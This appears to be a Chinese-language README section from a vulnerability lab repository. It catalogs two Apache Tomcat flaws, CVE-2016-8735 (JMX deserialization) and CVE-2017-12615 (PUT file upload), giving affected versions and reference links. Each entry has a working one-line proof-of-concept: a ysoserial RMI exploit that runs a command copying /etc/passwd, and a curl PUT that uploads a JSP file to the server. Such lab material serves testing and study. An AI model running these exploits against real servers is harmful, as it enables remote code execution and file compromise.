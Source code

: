 ### CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

测试镜像

* src/base/tomcat7.0/

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /tmp/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 10001 Groovy1 "cp /etc/passwd /tmp"
```

### CVE-2017-12615 - tomcat PUT 任意文件上传漏洞

测试镜像

* src/base/tomcat7.0/

参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

Poc

```
curl -vv -X PUT http://127.0.0.1/test.jsp/ -H 'Content-Type: text/plain' --data @test.jsp
```

